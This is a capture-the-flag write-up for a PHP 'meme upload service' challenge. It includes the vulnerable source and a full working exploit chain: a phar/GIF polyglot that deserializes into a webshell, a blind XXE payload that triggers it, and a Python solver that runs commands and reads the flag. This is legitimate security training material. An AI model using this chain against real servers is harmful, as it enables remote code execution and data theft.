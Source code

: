 # MEME UPLOAD SERVICE [HARD]

## Description

> We are working on a meme upload and messaging service. The service only allows users to upload images and currently only writes messages to a local directory. Can you find any bugs before we enable outbound Internet access and functionality to send the messages?

## Source Code

<details><summary>Click here for source code in text format</summary>

index.php

```php
<?php

class Message
{
    public function __construct($to, $from, $image)
    {
        $this->to = $to;
        $this->from = $from;
        $this->image = $image;
        $this->filePath = tempnam("/tmp/messages/", "") . ".txt"; // TODO: send messages
    }

    public function __destruct()
    {
        file_put_contents($this->filePath, sprintf(
            "Hey %s! Take a look at this meme: %s! - %s",
            $this->to,
            $this->from,
            $this->image,
        ));
    }
}

if (isset($_POST["message"])) {
    $msgXml = new DOMDocument();
    $msgXml->loadXML($_POST["message"], LIBXML_DTDLOAD);
    if ($msgXml->schemaValidate("valid_message.xsd")) {
        $msgObj = new Message(
            $msgXml->getElementsByTagName("to")[0]->nodeValue,
            $msgXml->getElementsByTagName("from")[0]->nodeValue,
            $msgXml->getElementsByTagName("image")[0]->nodeValue
        );
        echo sprintf(
            "Message stored %s!",
            $msgObj->filePath
        );
    } else {
        echo "Invalid XML!";
    }
} else if (isset($_FILES["image"])) {
    $imageTmp = $_FILES["image"]["tmp_name"];
    $imageSize = $_FILES["image"]["size"];
    $imageExt = strtolower(pathinfo($_FILES["image"]["name"], PATHINFO_EXTENSION));
    $imageMime = mime_content_type($imageTmp);
    $allowedExt = array("jpg", "jpeg", "gif", "png");
    $allowedMime = array("image/jpeg", "image/gif", "image/png");
    if (in_array($imageExt, $allowedExt) === false)
        die("Invalid extension!");
    if (in_array($imageMime, $allowedMime) === false)
        die("Invalid mime type!");
    if (getimagesize($imageTmp) === false || $imageSize > 185)
        die("Invalid size!");
    $uploadPath = tempnam("/tmp/images/", "") . "." . $imageExt;
    move_uploaded_file($imageTmp, $uploadPath);
    echo sprintf(
        "Image uploaded %s!",
        $uploadPath
    );
} else {
    echo highlight_file(__FILE__, true);
}
```

valid_message.xsd

```xml
<xs:schema attributeFormDefault="unqualified" elementFormDefault="qualified" xmlns:xs="http://www.w3.org/2001/XMLSchema">
<xs:element name="message">
  <xs:complexType>
    <xs:sequence>
      <xs:element name="to" minOccurs="1" maxOccurs="1"/>
      <xs:element name="from" minOccurs="1" maxOccurs="1"/>
      <xs:element name="image" minOccurs="1" maxOccurs="1"/>
    </xs:sequence>
  </xs:complexType>
</xs:element>
</xs:schema>
```

</details>

## Short Solution Description / Tags

Blind XXE, Phar Deserialization, RCE

## Soution

create_phar.php

```php
<?php

class Message {};

$obj = new Message;
$obj->to = '<?=`$_GET[0]`?>';
$obj->filePath = "a.php";

$phar = new Phar("tmp.phar");

// ref: https://www.php.net/manual/en/phar.setsignaturealgorithm.php
// There is a need to use MD5 or SHA1 algorithm so that Phar file size is not over 185 bytes.
$phar->setSignatureAlgorithm(Phar::MD5);
$phar->startBuffering();
$phar->setStub("GIF8<?php __HALT_COMPILER();");
// $phar->setStub("GIF8__HALT_COMPILER();");  this works also
$phar->setMetadata($obj);

// dummy file
$phar->addFromString('a', '');
$phar->stopBuffering();

$f = fopen('tmp.phar', 'r') or dir('Unable to open file.');
echo fread($f, filesize('tmp.phar'));
fclose($f);

@unlink("tmp.phar");

// echo $phar->getVersion() . PHP_EOL;
// var_dump($phar->getSignature());
```

Checking Phar:

```console
$ php create_phar.php | hd
00000000  47 49 46 38 3c 3f 70 68  70 20 5f 5f 48 41 4c 54  |GIF8<?php __HALT|
00000010  5f 43 4f 4d 50 49 4c 45  52 28 29 3b 20 3f 3e 0d  |_COMPILER(); ?>.|
00000020  0a 7c 00 00 00 01 00 00  00 11 00 00 00 01 00 00  |.|..............|
00000030  00 00 00 4d 00 00 00 4f  3a 37 3a 22 4d 65 73 73  |...M...O:7:"Mess|
00000040  61 67 65 22 3a 32 3a 7b  73 3a 32 3a 22 74 6f 22  |age":2:{s:2:"to"|
00000050  3b 73 3a 31 35 3a 22 3c  3f 3d 60 24 5f 47 45 54  |;s:15:"<?=`$_GET|
00000060  5b 30 5d 60 3f 3e 22 3b  73 3a 38 3a 22 66 69 6c  |[0]`?>";s:8:"fil|
00000070  65 50 61 74 68 22 3b 73  3a 35 3a 22 61 2e 70 68  |ePath";s:5:"a.ph|
00000080  70 22 3b 7d 01 00 00 00  61 00 00 00 00 00 00 00  |p";}....a.......|
00000090  00 00 00 00 00 00 00 00  00 a4 01 00 00 00 00 00  |................|
000000a0  00 5a f9 51 93 f4 d3 57  72 82 d9 39 3b 3a ce f8  |.Z.Q...Wr..9;:..|
000000b0  31 01 00 00 00 47 42 4d  42                       |1....GBMB|
000000b9

$ php create_phar.php | wc -c
185
```

solver.py

```python
import re
import subprocess
import sys
import requests

requests.packages.urllib3.disable_warnings()
s = requests.Session()
# s.proxies = {"https": "http://127.0.0.1:8080"}
s.verify = False

BASE_URL = "https://f2237915c2c268b3.247ctf.com"

# payload:
# https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages
# https://swisskyrepo.github.io/PayloadsAllTheThings/XXE%20Injection/#basic-blind-xxe


XML_PAYLOAD = """\
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "phar://{path}"> %xxe;]>
<message>
  <to>a</to>
  <from>b</from>
  <image>c</image>
</message>
"""


def main():
    # upload phar and create a.php webshell
    if len(sys.argv) != 2:
        p = subprocess.run(["php", "create_phar.php"], capture_output=True, check=True)
        phar = p.stdout
        assert len(phar) <= 185

        # upload phar
        r = s.post(
            BASE_URL,
            files={"image": ("test.gif", phar, "image/gif")},
        )
        m = re.findall(r"Image uploaded (.*?)!", r.text)
        assert m, "Failed to upload image"
        image_path = m[0]

        # upload xml
        r = s.post(BASE_URL, data={"message": XML_PAYLOAD.format(path=image_path)})
        assert "Message stored" in r.text, "Failed to upload XML"

    else:
        cmd = sys.argv[1]
        r = s.get(f"{BASE_URL}/a.php", params={"0": cmd})
        m = re.findall(r"Hey (.*)! Take", r.text, re.MULTILINE | re.DOTALL)
        assert m

        print(m[0])


if __name__ == "__main__":
    main()
```

Result:

```console
$ python3 solver.py  # upload phar

$ python3 solver.py 'ls -la /tmp'  # command execution
total 4
drwxrwxrwt 1 root     root     36 Dec 29 08:11 .
drwxr-xr-x 1 root     root     39 Dec 29 07:43 ..
-rw-rw-r-- 1 root     root     41 Apr 14  2021 flag_0073c38db2a4d3c1.txt
drwxr-xr-x 1 www-data www-data 70 Dec 29 08:11 images
drwxr-xr-x 1 www-data www-data 70 Dec 29 08:11 messages


$ python3 solver.py 'cat /tmp/flag_0073c38db2a4d3c1.txt'
247CTF{[REDACTED]}
```

## References

- [Polyglot Files: A Hacker’s Best Friend - Vickie Li’s Security Blog](https://vickieli.dev/hacking/polyglot/)
- [phar:// deserialization - HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion/phar-deserialization)
- [\[2020巅峰极客\]easyphp2](https://yyz9.cn/2020/10/11/2020%E5%B7%85%E5%B3%B0%E6%9E%81%E5%AE%A2easyphp2/)
- [PHAR deserialization](https://portswigger.net/web-security/deserialization/exploiting#phar-deserialization)
